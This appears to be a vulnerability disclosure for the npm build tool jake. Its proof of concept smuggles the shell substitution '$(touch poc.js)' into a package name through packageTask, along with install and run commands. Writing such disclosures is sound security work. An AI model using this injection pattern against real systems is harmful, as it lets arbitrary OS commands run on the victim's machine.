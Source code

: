 # Description

`jake` is vulnerable to `Command Injection vulnerability`. It allows attackers to execute arbitrary OS commands.

# Proof of Concept

1. Create the following PoC file as `jakefile.js`:
```javascript
const { packageTask } = require('jake');

const command = "$(touch poc.js)";

package = new packageTask(command, 'v1.0');
package.needTar = true;
package.define();
```

2. Execute the following commands:
```shell
npm i -g jake;
jake package -f jakefile.js;
```

3. Check the Output:

Look inside the `pkg` directory created and check that has a `poc.js` file.
